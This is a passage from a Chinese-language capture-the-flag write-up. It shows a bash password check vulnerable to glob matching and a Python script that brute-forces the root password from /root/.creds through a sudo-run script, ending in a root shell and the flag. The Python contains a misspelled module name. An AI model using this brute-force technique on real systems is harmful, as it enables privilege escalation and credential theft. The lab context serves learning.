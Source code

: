 ```bash
if [[$DB_PASS == $USER_PASS]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

那么可以尝试对 `$DB_PASS` 变量进行爆破，也就是读取 `/root/.creds` 文件的内容

```python
import string
import subproccess

def check_password(p):
    command = f"echo'{p}*'| sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
    return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True
```

执行后得到密码 `kljh12k3jhaskjh12kjh3`

## User - root

```bash
(remote) joshua@codify:/home/joshua$ su root
Password:
root@codify:/home/joshua# whoami
root
```

### flag - root

```bash
root@codify:~# cat root.txt
f2138d1d7e9e92e46c08a57ad2c6754f
```
